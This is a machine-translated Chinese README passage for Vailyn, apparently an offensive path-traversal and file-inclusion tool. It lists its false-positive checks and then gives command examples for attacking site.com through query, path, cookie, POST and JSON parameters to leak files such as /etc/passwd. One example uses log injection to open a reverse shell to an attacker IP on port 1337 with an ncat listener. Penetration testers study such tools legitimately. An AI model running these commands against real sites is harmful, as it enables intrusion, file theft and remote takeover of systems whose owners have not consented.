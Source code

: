 **假阳性预防**

为了区分真实结果和假阳性，Vailyn 进行了以下检查:

*   检查响应的状态代码
*   检查响应是否与攻击开始前的响应相同:这很有用，例如，当服务器返回 200，但忽略有效负载输入或如果找不到文件则返回默认页面时。
*   与#2 类似，对查询 GET 参数处理执行额外的检查(当服务器返回一个所需参数丢失的错误时很有用)
*   检查空响应
*   检查响应内容中是否有常见的错误签名
*   检查有效负载是否包含在响应中:这是对服务器响应 200 不存在的文件的情况的额外检查，并在消息中反映有效负载(如../../找不到机密)
*   检查整个响应是否包含在 init check response 中:当服务器有一个缺省的 include(在 404 的情况下会消失)时很有用
*   对于`-a 2`，如果响应内容与来自服务器根 URL 的内容匹配，则执行额外的检查
*   如果使用`/etc/passwd`作为查找文件，则使用正则表达式检查它

**例子**

*   简单查询攻击，泄露文件第二阶段:**`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 leak dicts/files dicts/dirs -p file`**–>`**http://site.com/download.php?file=../INJECT**`
*   查询攻击，但是我知道一个文件`**file.php**`正好存在于包含点之上的 2 层:`**$ Vailyn -v "http://site.com/download.php" -a 1 -p2 leak dicts/files dicts/dirs -p file -i file.php -d 2 X X -P**`这将大大缩短阶段 1 的持续时间，因为它是一个有针对性的攻击。
*   简单路径攻击:**`$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs`**–>`**http://site.com/../INJECT**`
*   路径攻击，但是我需要查询参数和标签:`**$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs -Pi "?token=X#title"**`–>`**http://site.com/../INJECT?token=X#title**`
*   简单的 cookie 攻击:`**$ Vailyn -v "http://site.com/cookiemonster.php" -a 3 -p2 leak dicts/files dicts/dirs**`将获取 Cookie，您可以选择您想要下毒的 Cookie
*   普通攻击后:`**$ Vailyn -v "http://site.com/download.php" -a 4 -p2 leak dicts/files dicts/dirs -p "DATA1=xx&DATA2=INJECT"**`会用有效载荷感染数据 2
*   POST JSON 攻击:`**$ Vailyn -v "http://site.com/download.php" -a 5 -p2 leak dicts/files dicts/dirs -p '{"file": "INJECT"}'**`
*   攻击，但目标在登录屏幕后:`**$ Vailyn -v "http://site.com/" -a 1 -p2 leak dicts/files dicts/dirs -c "sessionid=foobar"**`
*   攻击，但我希望在端口 1337 上有一个反向 shell:`**$ Vailyn -v "http://site.com/download.php" -a 1 -p2 inject MY.IP.IS.XX 1337 # a high Phase 2 Depth is needed for log injection**`(如果在 Unix 上，将为您启动一个 ncat 监听器)
*   爬虫模式下完全自动化:`**$ Vailyn -v "http://root-url.site" -a A**` *你也可以指定其他参数，像 cookie，深度，lfi &查找文件这里*
*   全自动化，但阿琼需要 **`--stable` : `$ Vailyn -v "http://root-url.site" -a A -s ANY`**

[**Download**](https://github.com/VainlyStrain/Vailyn)